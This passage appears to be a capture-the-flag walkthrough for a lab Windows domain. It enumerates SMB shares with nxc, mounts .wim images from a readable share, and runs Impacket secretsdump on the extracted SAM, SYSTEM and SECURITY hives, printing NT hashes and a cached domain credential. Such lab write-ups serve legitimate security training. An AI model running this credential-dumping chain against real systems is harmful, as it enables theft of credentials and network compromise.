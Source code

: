 ```bash
nxc smb shibuya.vl -u 'svc_autojoin' -p 'REDACTED' --shares
SMB         10.10.103.65    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.103.65    445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:REDACTED
SMB         10.10.103.65    445    AWSJPDC0522      [*] Enumerated shares
SMB         10.10.103.65    445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.10.103.65    445    AWSJPDC0522      -----           -----------     ------
SMB         10.10.103.65    445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.10.103.65    445    AWSJPDC0522      C$                              Default share
SMB         10.10.103.65    445    AWSJPDC0522      images$         READ
SMB         10.10.103.65    445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.10.103.65    445    AWSJPDC0522      NETLOGON        READ            Logon server share
SMB         10.10.103.65    445    AWSJPDC0522      SYSVOL          READ            Logon server share
SMB         10.10.103.65    445    AWSJPDC0522      users           READ
```
Ok nice, we can now read a new share, let's check ```images$```

```console
# use images$
# ls
drw-rw-rw-          0  Wed Feb 19 18:35:20 2025 .
drw-rw-rw-          0  Wed Feb 19 13:59:37 2025 ..
-rw-rw-rw-    8264070  Wed Feb 19 18:35:20 2025 AWSJPWK0222-01.wim
-rw-rw-rw-   50660968  Wed Feb 19 18:35:20 2025 AWSJPWK0222-02.wim
-rw-rw-rw-   32065850  Wed Feb 19 18:35:20 2025 AWSJPWK0222-03.wim
-rw-rw-rw-     365686  Wed Feb 19 18:35:20 2025 vss-meta.cab
```
## Secretdumps locally

There is 3 .wim files

We can download them and mount them to watch their contents

(Note : A .wim (Windows Imaging Format) file is a disk image format used primarily by Windows)

```bash
mkdir /mnt/wim1
mkdir /mnt/wim2
mkidr /mnt/wim3

wimmount AWSJPWK0222-01.wim /mnt/wim1
wimmount AWSJPWK0222-02.wim /mnt/wim2
wimmount AWSJPWK0222-03.wim /mnt/wim3
```
Grab ```SYSTEM```, ```SAM``` and ```SECURITY```

```SAM```, ```SECURITY```, and ```SYSTEM``` files are critical databases distributed across a DC or Windows machine. They contain sensitive information, including users, passwords and security policies

We can therefore use secretdumps locally on it to extract information

```bash
secretsdump -sam SAM -system SYSTEM  -security SECURITY LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x2e971736685fc53bfd5106d471e2f00f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8dcb5ed323d1d09b9653452027e8c013:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9dc1b36c1e31da7926d77ba67c654ae6:::
operator:1000:aad3b435b51404eeaad3b435b51404ee:5...50:::
[*] Dumping cached domain logon information (domain/username:hash)
SHIBUYA.VL/Simon.Watson:$DCC2$10240#Simon.Watson#04b20c71b23baf7a3025f40b3409e325: (2025-02-16 11:17:56)
```